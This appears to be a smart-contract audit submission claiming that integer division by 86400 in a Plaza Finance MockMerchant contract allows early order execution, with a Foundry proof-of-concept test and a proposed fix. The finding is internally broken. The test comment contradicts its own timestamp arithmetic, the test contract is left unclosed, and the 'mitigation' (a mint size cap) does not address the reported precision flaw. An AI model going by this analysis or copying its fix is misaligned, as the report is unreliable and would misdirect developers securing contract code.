 Upbeat Golden Woodpecker

Medium

# Integer Division Precision Loss: Precision loss in days calculation can lead to early execution

### Summary

Integer division in `getDaysToPayment()` will cause timing precision issues as the division by 86400 (seconds per day) drops remainders.

### Root Cause

In src/MockMerchant.sol#46-47 (https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/MockMerchant.sol#L46-L47):
```solidity
return uint8((poolInfo.lastDistribution + poolInfo.distributionPeriod - block.timestamp) / 86400);
```

The division by 86400 truncates any remaining seconds, potentially allowing execution slightly early.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Monitor pools where remaining time is slightly over full days
2. Execute when remainder would round down to 0
3. Call `executeOrders()` before full period completion

### Impact

1. Slightly early distributions possible
2. Cumulative effect over multiple periods

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/MockMerchant.sol";
import "../src/Pool.sol";
import "../test/mocks/Token.sol";

contract MockMerchantTest is Test {
    MockMerchant public merchant;
    Pool public pool;
    Token public couponToken;
    Token public reserveToken;
    Token public bondToken;
    
    address public attacker = address(0x1);
    address public user = address(0x2);

    function setUp() public {
        // Setup mock price feed
        merchant = new MockMerchant(address(0x123)); // mock eth price feed address
        
        // Deploy tokens
        couponToken = new Token("Coupon", "CPN", 18);
        reserveToken = new Token("Reserve", "RSV", 18);
        bondToken = new Token("Bond", "BND", 18);
        
        // Setup pool
        pool = new Pool(
            address(couponToken),
            address(reserveToken),
            address(bondToken)
        );

        // Initial setup
        vm.startPrank(address(pool));
        couponToken.grantRole(couponToken.MINTER_ROLE(), address(merchant));
        reserveToken.grantRole(reserveToken.BURNER_ROLE(), address(merchant));
        vm.stopPrank();
    }

    function testPrecisionLossExploit() public {
        uint256 distributionPeriod = 5 days;
        uint256 initialTimestamp = block.timestamp;
        
        vm.startPrank(address(pool));
        pool.setDistributionPeriod(distributionPeriod);
        pool.setLastDistribution(initialTimestamp);
        vm.stopPrank();

        // Move to where there's just over 1 day left (should round down to 0)
        uint256 almostEndTime = initialTimestamp + distributionPeriod - 86400 + 1;
        vm.warp(almostEndTime);
        
        // Check days to payment
        uint8 daysLeft = merchant.getDaysToPayment(address(pool));
        assertEq(daysLeft, 0, "Precision loss allows early execution");
        
        // Execute orders earlier than intended
        vm.prank(attacker);
        merchant.executeOrders(address(pool));
    }
```

### Mitigation

Add order size limits

```solidity
uint256 public constant MAX_COUPON_MINT = 1000000e18; // Example limit

function executeOrders(address _pool) external {
    ...
    uint256 couponAmount = getCouponAmount(_pool);
    require(couponAmount <= MAX_COUPON_MINT, "Exceeds maximum mint amount");
    ...
}
```